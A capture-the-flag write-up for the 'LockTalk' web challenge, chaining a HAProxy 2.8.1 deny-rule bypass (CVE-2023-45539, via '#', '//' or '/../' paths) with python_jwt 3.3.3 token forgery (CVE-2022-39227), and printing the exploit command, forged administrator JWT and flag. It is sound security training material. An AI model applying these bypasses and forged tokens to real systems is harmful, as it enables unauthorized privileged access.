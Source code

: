 # LockTalk

Date: March 2024

Difficulty: <font color='orange'>Medium</font>

Category: **web**

## Description
>In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

## Strategy

To solve the challenge we took advantage of a vulnerability in haproxy version that allows us to **bypass a deny ACL via a path normalization issue** and get unauthorized access to the API as a user with the guest role. Then we proceed to find another vulnerability in the python_jwt library used for signing and verifying JWT tokens that allows us to **forge valid JWT tokens adding custom claims**. The latter allows us to forge a JWT token with the adeministrator role and get the flag.

## Enumeration

![](assets/webapp.png)

### Analyzing the source code

We are given the source code "web_locktalk.zip".

#### 1. haproxy version 2.8.1

The first thing we noticed is the version of haproxy that is referenced in the Dockerfile: 2.8.1. That version got my attention because of being vulnerable to CVE-2023-45539 as mentioned in [\[1\]](https://security.snyk.io/vuln/SNYK-DEBIAN10-HAPROXY-6091978) and [\[2\]](https://github.com/advisories/GHSA-79q7-m98p-qvhp).

![](assets/haproxy-version.png)

![](assets/cve-2023-45539.png)

We can see there is an ACL directive in haproxy.cfg file to deny the request for /api/v1/get_ticket:

```cfg
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

#### 2. python_jtw version 3.3.3

Later on, reviewing the python dependencies we see python_jwt version 3.3.3 which is vulnerable to CVE-2022-39227, which allows to forge valid JWT tokens with modified claims keeping the original signature, as detailed in [\[1\]](https://pypi.org/project/python-jwt/) and [\[2\]](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp).

![](assets/python_jwt.png)

![](assets/CVE-2022-39227.png)

#### 3. Elevated privileges to access /flag endpoint

The /flag endpoint is only authorized to be invoked by an administrator:

```
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

## Exploitation

### 1. Getting a valid JWT via CVE-2023-45539

Attempting to access /api/v1/get_token directly gives us a 403 HTTP code.

![](assets/deny-rule.png)

We can **bypass that by adding a '#' at the end of the endpoint**: `/api/v1/get_token#`:

![](assets/bypass-haproxy-deny-rule.png)

Using Burp [JSON Web Tokens](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6) plugin we can see the role assigned: "guest".

![](assets/jwt-guest.png)

Reading other writeups it is interesting that there are at least two more different ways to get the same goal:
- perform a GET request to `//api/v1/get_token` as mentioned by [f0rest3xplorer](https://f0rest3xplorer.github.io/posts/locktalk/)
- perform a GET request to `/../api/v1/get_token` as mentioned by [Khanhhnahk1](https://hackmd.io/vlDnNWq5Qwair5d9y5nbWA?view#LockTalk)

There are also others that I tested like `/./api/v1/get_token` or specifying multiple ".." `/../../../../../../api/v1/get_ticket`:

![](assets/bypass-haproxy-2.png)
![](assets/bypass-haproxy-3.png)

### 2. Forging a valid JWT to elevate our privileges via CVE-2022-39227

With the guest JWT we cannot consume the `/flag` endpoint:

![](assets/flag-fail-guest.png)

I found this [repo](https://github.com/user0x1337/CVE-2022-39227/tree/main) in github that eases the forge JWT generation. We add the claim "role=administrator":

```bash
$ python3 cve_2022_39227.py -j "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.dntLt-l9Mu5rMSEzL8V6JmgYLo_p0hbhxpjiSiBy4Hom5XAtGCpJrzeonfN9mWKEqh8wj3mb2slxB6h3-OG3ET7YOR_RdZBUWPwhSRsenLZCo6aUxTM8d1wy-qe7WrBV-9YnCLrKQERO5AwtBdIjsL8Jj1tu2t3AYmbnDorp72616yRNNlLv9iXq9gnZHsBYHjhexA6zGIeqZmHddBnJCglVLi3Bnr9YfokUsh1bWnc1-xp3ERIEH-hO3YzyD1c8ESSiWPjuxapTuOXUyZNjC0nGUFjM9OTvNt5tWvMhaquekszY27j3O4rD0vB1bw1Me_Go3fv5kPASunswGR_rIw" -i "role=administrator"

[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710100916, 'iat': 1710097316, 'jti': 'BW2ox2AOyAaHipV6npUkJw', 'nbf': 1710097316, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710100916, 'iat': 1710097316, 'jti': 'BW2ox2AOyAaHipV6npUkJw', 'nbf': 1710097316, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"dntLt-l9Mu5rMSEzL8V6JmgYLo_p0hbhxpjiSiBy4Hom5XAtGCpJrzeonfN9mWKEqh8wj3mb2slxB6h3-OG3ET7YOR_RdZBUWPwhSRsenLZCo6aUxTM8d1wy-qe7WrBV-9YnCLrKQERO5AwtBdIjsL8Jj1tu2t3AYmbnDorp72616yRNNlLv9iXq9gnZHsBYHjhexA6zGIeqZmHddBnJCglVLi3Bnr9YfokUsh1bWnc1-xp3ERIEH-hO3YzyD1c8ESSiWPjuxapTuOXUyZNjC0nGUFjM9OTvNt5tWvMhaquekszY27j3O4rD0vB1bw1Me_Go3fv5kPASunswGR_rIw"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"dntLt-l9Mu5rMSEzL8V6JmgYLo_p0hbhxpjiSiBy4Hom5XAtGCpJrzeonfN9mWKEqh8wj3mb2slxB6h3-OG3ET7YOR_RdZBUWPwhSRsenLZCo6aUxTM8d1wy-qe7WrBV-9YnCLrKQERO5AwtBdIjsL8Jj1tu2t3AYmbnDorp72616yRNNlLv9iXq9gnZHsBYHjhexA6zGIeqZmHddBnJCglVLi3Bnr9YfokUsh1bWnc1-xp3ERIEH-hO3YzyD1c8ESSiWPjuxapTuOXUyZNjC0nGUFjM9OTvNt5tWvMhaquekszY27j3O4rD0vB1bw1Me_Go3fv5kPASunswGR_rIw"}
```

It is important to note this:

![](assets/forged-note.png)

### 3. Getting the flag

Using the forged JWT we get the flag: `HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`

![](assets/flag.png)

![](assets/pwned.png)




